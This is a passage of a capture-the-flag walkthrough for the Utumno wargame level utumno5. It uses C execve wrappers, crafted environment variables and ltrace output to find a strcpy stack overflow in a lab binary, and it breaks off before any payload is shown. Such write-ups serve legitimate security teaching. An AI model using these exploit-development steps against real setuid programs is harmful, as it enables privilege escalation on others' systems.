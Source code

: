 ```nasm
   0x08048515 <+58>:	ret
End of assembler dump.
(gdb)
```

This challenge is quite similar to the second one as we need to have no args passed to the executable. We just need to reuse our old code to have an empty *argc*.

```c
#include <unistd.h>

void main() {
    execve("/utumno/utumno5", NULL, NULL);
}
```

```bash
utumno5@utumno:/tmp/ax$ gcc -m32 code.c -o code
utumno5@utumno:/tmp/ax$ ltrace ./code
__libc_start_main(0x565555a0, 1, 0xffffd764, 0x565555e0 <unfinished ...>
execve(0x56555660, 0, 0, 0x565555b4 <no return ...>
--- Called exec() ---
__libc_start_main(0x8048516, 0, 0xffffdf14, 0x8048570 <unfinished ...>
printf("Here we go - %s\n", "\021\022\023\024\025\026\027\030\031\032\033\034\035\036\037 !"#$%&'()*+,-./0"... <no return ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Hum, *segfault*... Let's add some environment variables.

```c
#include <unistd.h>

void main() {
    char *envp[] = {"A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L"};
    execve("/utumno/utumno5", NULL, envp);
}
```

```bash
utumno5@utumno:/tmp/ax$ gcc -m32 code.c -o code
utumno5@utumno:/tmp/ax$ ltrace ./code
__libc_start_main(0x565555a0, 1, 0xffffd764, 0x56555660 <unfinished ...>
execve(0x565556f8, 0, 0xffffd680, 0x565555b7 <no return ...>
--- Called exec() ---
__libc_start_main(0x8048516, 0, 0xffffdec4, 0x8048570 <unfinished ...>
printf("Here we go - %s\n", "J"Here we go - J
)                             = 15
strlen("J")                                                  = 1
strcpy(0xffffde10, "J")                                      = 0xffffde10
+++ exited (status 0) +++
```

Interesting... the 10th argument is printed. Let's try to overflow this variable.
